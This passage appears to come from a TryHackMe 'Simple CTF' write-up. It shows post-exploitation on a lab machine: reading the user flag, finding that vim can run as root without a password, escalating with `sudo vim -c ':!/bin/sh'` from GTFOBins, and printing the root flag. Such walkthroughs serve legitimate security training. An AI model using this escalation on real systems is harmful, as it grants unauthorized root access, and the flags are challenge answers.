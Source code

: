 ```bash
```
```bash
$ ls
user.txt
```
```bash
$ cat user.txt
G00d j0b, keep up!
```

# Post Exploitation
> Privilege Escalation
22. `sudo -l` to list the sudo privileges assigned to the user that we're logged in as, which shows that they can execute the **vim** program without needing the root's password
```bash
$ sudo -l     
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
23. `firefox "https://gtfobins.github.io/"` to launch Firefox and redirect it to the GTFOBins website, and search "vim", which ended up providing us with some code sequences that we could use to gain higher privileges within our target's compromised system

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Simple%20CTF/GTFOBins.png)

24. `sudo vim -c ':!/bin/sh'` to open the Vim text editor with root privileges and execute the shell command, which spawned us a Bourne shell (sh)
```bash
$ sudo vim -c ':!/bin/sh'
#
```
25. `whoami` to verify that we're now running as root, which we are
26. `ls /root` to list the available files and directories within the target's **/root** directory, which contained a text file named "root" 
27. `cat {ROOT TEXT FILE}` to display the contents of the root text file onto our terminal, which ended up containing the root flag for this challenge
```bash
# whoami
root
```
```bash
# ls /root
root.txt
```
```bash
# cat /root/root.txt  
W3ll d0n3. You made it!
```

**Room completed!**

![]()
